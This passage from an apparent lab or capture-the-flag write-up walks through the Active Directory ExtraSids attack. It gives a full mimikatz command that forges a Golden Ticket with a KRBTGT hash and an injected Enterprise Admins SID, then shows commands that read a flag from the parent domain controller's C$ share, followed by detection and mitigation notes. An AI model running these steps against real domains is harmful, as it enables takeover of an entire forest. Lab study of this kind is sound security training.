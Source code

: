 **Step 2: Execute ExtraSids Attack**
```powershell
# Create Golden Ticket with Enterprise Admin privileges
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

# Verify ticket loaded
klist
```

**Step 3: Access Parent Domain and Retrieve Flag**
```powershell
# Access parent domain controller
ls \\academy-ea-dc01.inlanefreight.local\c$

# Navigate to flag location and retrieve contents
type \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
```

**🎯 Answer**: `[Flag contents from c:\ExtraSids\flag.txt]`

---

## ⚠️ **Security Implications**

### **Attack Prerequisites**
- **Child domain compromise**: Domain Admin or equivalent privileges required
- **Forest boundary**: Attack works within same AD forest due to SID filtering absence
- **Trust relationship**: Parent-child trust must exist (automatic in forests)

### **Detection Considerations**
- **Golden Ticket indicators**: Long-lived tickets, unusual user accounts
- **Cross-domain access**: Monitor Enterprise Admin group usage
- **SID History modifications**: Audit SID History attribute changes
- **KRBTGT password rotation**: Regular rotation invalidates Golden Tickets

### **Mitigation Strategies**
- **Privileged access management**: Limit child domain admin privileges
- **Monitoring**: Enhanced logging for cross-domain authentication
- **Segmentation**: Consider forest boundary design for high-security environments
- **KRBTGT maintenance**: Regular password rotation and monitoring

---

## 🔑 **Key Takeaways**

### **Attack Flow Summary**
```
Child Domain Compromise → KRBTGT Hash + SIDs → Golden Ticket Creation → Parent Domain Access
    (Domain Admin)        (Attack Data)       (ExtraSids Attack)     (Enterprise Admin)
```
